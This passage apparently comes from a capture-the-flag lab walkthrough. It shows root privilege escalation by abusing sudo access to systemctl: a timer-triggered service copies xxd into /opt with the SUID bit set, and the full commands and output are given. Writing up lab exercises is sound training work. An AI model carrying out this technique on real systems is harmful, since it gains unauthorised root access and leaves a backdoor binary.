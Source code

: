 - Now when you read these `exploit` files you will see that `exploit.service` will create a new directory `/opt/xxd` which we are going to abuse.

  ```
  comte@ip-10-10-76-30:~$ cat /etc/systemd/system/exploit.timer
  [Unit]
  Description=Exploit Timer
  
  [Timer]
  OnBootSec=
  
  [Install]
  WantedBy=timers.target

  comte@ip-10-10-76-30:~$ cat /etc/systemd/system/exploit.service 
  [Unit]
  Description=Exploit Service
  
  [Service]
  Type=oneshot
  ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
  ```
  
- Now edit the `exploit.timer` just by adding `5s` to the `OnBootSec=` and then run the commands with sudo.

  ```
  comte@ip-10-10-76-30:~$ cat /etc/systemd/system/exploit.timer
  [Unit]
  Description=Exploit Timer
  
  [Timer]
  OnBootSec=5s
  
  [Install]
  WantedBy=timers.target
  
  comte@ip-10-10-76-30:~$ sudo /bin/systemctl daemon-reload
  comte@ip-10-10-76-30:~$ 
  comte@ip-10-10-76-30:~$ sudo /bin/systemctl restart exploit.timer
  comte@ip-10-10-76-30:~$ sudo /bin/systemctl start exploit.timer
  comte@ip-10-10-76-30:~$ sudo /bin/systemctl enable exploit.timer
  Created symlink /etc/systemd/system/timers.target.wants/exploit.timer → /etc/systemd/system/exploit.timer.
  ```

- Exploit created `xxd` file in `/opt`.

  ```
  comte@ip-10-10-76-30:~$ ls -al /opt
  total 28
  drwxr-xr-x  2 root root  4096 Jun  1 13:57 .
  drwxr-xr-x 19 root root  4096 Jun  1 12:13 ..
  -rwsr-sr-x  1 root root 18712 Jun  1 13:57 xxd
  ```

